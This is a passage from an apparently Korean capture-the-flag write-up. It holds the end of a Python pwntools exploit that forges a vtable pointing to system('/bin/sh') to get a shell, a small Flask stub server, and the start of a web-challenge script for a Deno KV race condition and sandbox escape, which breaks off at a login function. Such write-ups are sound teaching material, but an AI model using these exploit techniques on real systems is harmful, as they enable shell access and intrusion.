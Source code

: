```python
system = libc_base + lib.sym['system']
gadget = libc_base + 0x001279d3
oneshot = libc_base + 0xc8300
print("libc",hex(libc_base))
print("class",hex(class_base))


def edit(idx, value):
    r.sendlineafter(": ","13")
    r.sendlineafter(": ", str(idx))
    r.sendlineafter(": ", hex(value&0xffffffff))
    r.sendlineafter(": ","13")
    r.sendlineafter(": ", str(idx+1))
    r.sendlineafter(": ", hex((value>>32)&0xffffffff))

## vtable address
edit(-(0x3f4 // 4) & ((1<<32)-1), array_base-0x10)
edit((-(0x3f4 // 4) & ((1<<32)-1))+2, array_base)

## fake vtable
edit(-4, int.from_bytes(b"/bin/sh\x00", "little"))
edit(-2, array_base-0x8)
edit(0, gadget)
edit(4, system)

r.sendlineafter(": ", "1")
r.sendlineafter(": ", "0")
r.sendlineafter(": ", "0")
r.interactive()
```

fake_server.py
```python
from flask import Flask, request, jsonify
import json
app = Flask(__name__)

@app.route("/",methods=["POST"])
def handler():
    data = request.json
    calldata = data['params'][0]['data']
    return jsonify({"result":calldata})

if __name__ == "__main__":
    app.run(host="0.0.0.0",port=5000)
```

## 4. Web - denostore

Deno kv에서의 race condition을 이용해 돈 복사를 한 후, deno js sandbox 탈출

```py
import requests

# Server URL
BASE_URL = "http://localhost:8000"  # Replace with your actual server URL

# User credentials
USERNAME = "kitae3"
PASSWORD = "123"

# 1. Login user and share session
def login_user(username, password):
    url = f"{BASE_URL}/login"
```